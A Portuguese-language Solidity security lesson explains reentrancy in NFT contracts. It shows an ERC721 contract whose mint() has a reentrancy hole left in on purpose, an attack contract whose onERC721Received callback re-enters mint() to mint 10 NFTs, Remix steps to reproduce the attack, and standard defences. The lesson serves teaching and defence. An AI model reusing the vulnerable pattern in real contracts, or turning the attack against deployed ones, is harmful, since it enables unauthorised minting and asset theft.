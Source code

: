 # Segurança do Contrato Solidity: S16. Ataque de Reentrada em NFT

Recentemente, tenho revisitado o aprendizado de Solidity para reforçar os detalhes e estou escrevendo um "Guia de Iniciação Rápida para Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 palestras.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WhatsApp](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

-----

Nesta palestra, vamos falar sobre a vulnerabilidade de ataque de reentrada em contratos NFT e atacar um contrato NFT com falhas para criar 10 NFTs.

## Risco de Reentrada em NFT

Já discutimos em [S01 Ataque de Reentrada](../S01_ReentrancyAttack/readme_pt-br.md) que o ataque de reentrada é um dos ataques mais comuns nos contratos inteligentes, onde um invasor, por meio de uma vulnerabilidade no contrato (como a função `fallback`), faz chamadas repetidas ao contrato para transferir ativos ou criar muitas tokens. Quando se trata de transferir NFTs, eles não acionam as funções `fallback` ou `receive` dos contratos. Por que ainda há risco de reentrada?

Isso ocorre porque os padrões de NFT (ERC721/ERC1155) adicionaram uma verificação segura para garantir que os ativos de NFT não sejam acidentalmente enviados para um endereço inválido. Quando um NFT é transferido para um contrato, ele chama a função de verificação correspondente desse contrato, garantindo que esteja pronto para receber o ativo de NFT. Por exemplo, a função `safeTransferFrom()` do `ERC721` chama a função `onERC721Received()` do endereço de destino, o que pode ser explorado por um hacker para lançar um ataque.

Aqui estão as funções do `ERC721` e `ERC1155` que têm potencial para risco de reentrada:

![](./img/S16-1.png)

## Exemplo de Vulnerabilidade

Vamos analisar um exemplo de contrato NFT com vulnerabilidade de reentrada. Este contrato `ERC721` permite a cada endereço criar um NFT gratuitamente, mas um ataque de reentrada pode permitir a criação de vários NFTs de uma só vez.

### Contrato com Vulnerabilidade

O contrato `NFTReentrancy` herda o contrato `ERC721` e possui 2 variáveis de estado principais: `totalSupply`, que rastreia o total de NFTs criados, e `mintedAddress`, que armazena os endereços que já criaram NFTs para evitar múltiplas criações. Ele possui 2 funções principais:
- Construtor: Inicializa o nome e o símbolo da coleção de NFTs para o `ERC721`.
- `mint()`: Função de criação, onde cada usuário pode criar um NFT gratuitamente. **Atenção: esta função apresenta uma vulnerabilidade de reentrada!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    
    // Construtor, inicializa o nome e símbolo da coleção NFT
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Função de criação de NFT, cada usuário só pode criar 1 NFT
    // Tem vulnerabilidade de reentrada
    function mint() payable external {
        // Verifica se o endereço já criou um NFT
        require(mintedAddress[msg.sender] == false);
        // Incrementa o total de NFTs
        totalSupply++;
        // Cria o NFT
        _safeMint(msg.sender, totalSupply);
        // Registra o endereço que criou o NFT
        mintedAddress[msg.sender] = true;
    }
}
```

### Contrato de Ataque

O contrato `Attack` herda o contrato `IERC721Receiver` e possui 1 variável de estado `nft` que armazena o endereço do contrato NFT com vulnerabilidade. Ele possui 3 funções:
- Construtor: Inicializa o endereço do contrato NFT com vulnerabilidade.
- `attack()`: Função de ataque, que chama a função `mint()` do contrato NFT para iniciar o ataque.
- `onERC721Received()`: Função de retorno de chamada do ERC721 com código malicioso incorporado, que chama repetidamente a função `mint()` e cria 10 NFTs.

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // Endereço do contrato NFT com vulnerabilidade

    // Inicializa o endereço do contrato NFT
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Função de ataque, inicia o ataque
    function attack() external {
        nft.mint();
    }

    // Função de retorno de chamada do ERC721, que chama a função mint repetidamente e cria 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Replicação no Remix

1. Implante o contrato `NFTReentrancy`.
2. Implante o contrato `Attack`, inserindo o endereço do contrato `NFTReentrancy` como parâmetro.
3. Chame a função `attack()` do contrato `Attack` para iniciar o ataque.
4. Chame a função `balanceOf()` do contrato `NFTReentrancy` para consultar a posse do contrato `Attack`. Você verá que ele possui 10 NFTs, com o ataque bem-sucedido.

![](./img/S16-2.png)

## Métodos de Prevenção

Existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação (checks-effect-interaction) e o uso de bloqueios de reentrada.

1. Modelo de Verificação-Impacto-Interação: Este modelo enfatiza que ao escrever funções, deve-se primeiro verificar se as variáveis de estado estão de acordo com os requisitos, em seguida, atualizá-las (por exemplo, saldo), e por último interagir com outros contratos. Podemos corrigir a função `mint()` vulnerável usando este modelo.

2. Bloqueio de Reentrada: É um modificador utilizado para evitar funções de reentrada. Recomendamos o uso do [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard), fornecido pela OpenZeppelin.

## Conclusão

Nesta palestra, abordamos a vulnerabilidade de ataques de reentrada em contratos NFT e realizamos um ataque bem-sucedido a um contrato NFT com falhas, criando 10 NFTs. Atualmente, existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação e o uso de bloqueios de reentrada.

